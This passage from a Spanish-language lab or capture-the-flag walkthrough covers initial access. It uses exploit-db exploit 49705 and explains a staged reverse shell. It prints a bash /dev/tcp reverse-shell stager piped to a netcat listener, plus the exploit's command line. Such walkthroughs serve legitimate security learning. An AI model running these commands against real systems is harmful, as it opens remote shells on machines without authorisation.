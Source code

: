 ## Explotación Inicial

Ahora para acceder al sistema como usuario, vamos a utilizar este exploit que debemos descargar de exploit-db:

[![Descargar Exploit](https://www.exploit-db.com/images/logo.png)](https://www.exploit-db.com/exploits/49705)

![nmap1.png](Images/Exploit14.png)

Para ejecutar este exploit debemos de ejecutar los siguientes dos comandos en terminales diferentes:

![nmap1.png](Images/Exploit15.png)

Esto es debido a que el exploit puede tener limitaciones en el payload que puede inyectar, por lo que se realizar una técnica llamada **“staged reverse shell”** o **reverse shell en dos etapas**.

Para aclararlo, un staged reverse shell una técnica de explotación en la que el establecimiento de **una shell remota se realiza en múltiples fases secuenciales**. En lugar de enviar el payload completo en una única transmisión, se envía inicialmente un pequeño fragmento de código cuya función es establecer un canal de comunicación y descargar o recibir el payload principal que en este caso seria echo **'bash -c "bash -i >/dev/tcp/10.10.114.49/8001 0>&1 2>&1"' | nc -lnvp 8000**  que contiene la funcionalidad completa de la shell.

A este comando se le conoce como **stager** y al exploit principal como **stage**.

***¿Por qué se utiliza esta técnica y no simplemente lanzar una única shell?***  

Porque permite evadir restricciones de tamaño, filtros de seguridad y limitaciones del vector de ataque inicial, ya que el stager suele ser lo suficientemente pequeño y simple como para pasar desapercibido o caber en buffers limitados, mientras que el stage posterior puede ser tan complejo y extenso como sea necesario al transmitirse por el canal ya establecido.

Una vez terminada la explicación y lanzado el stager, vamos a ejecutar el exploit:

**python3 49705.py [URL] [USER] [PASSWORD] [TU IP] [Puerto de escucha] [OS]**

![nmap1.png](Images/Exploit16.png)
